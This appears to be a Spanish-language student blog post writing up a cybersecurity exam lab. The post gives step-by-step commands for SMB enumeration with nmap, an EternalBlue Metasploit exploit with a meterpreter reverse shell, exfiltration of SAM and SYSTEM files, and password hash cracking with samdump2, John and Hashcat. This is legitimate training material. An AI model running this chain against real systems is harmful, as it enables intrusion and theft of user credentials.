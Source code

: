 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [ciberseg, informatica]
tags: [smb, meterpeter, nmap]  # TAG names should always be lowercase
---
```


En este post, vamos a desarrollar el examen parcial.

# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.


# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

Inicia Metasploit:
    msfconsole
Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
Configura los parámetros necesarios:

![alt text](/assets/images/2.png)

### Explicación de los parámetros:
RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.


# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.


# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM


# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt

Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt

O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

### Explicación:
Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.

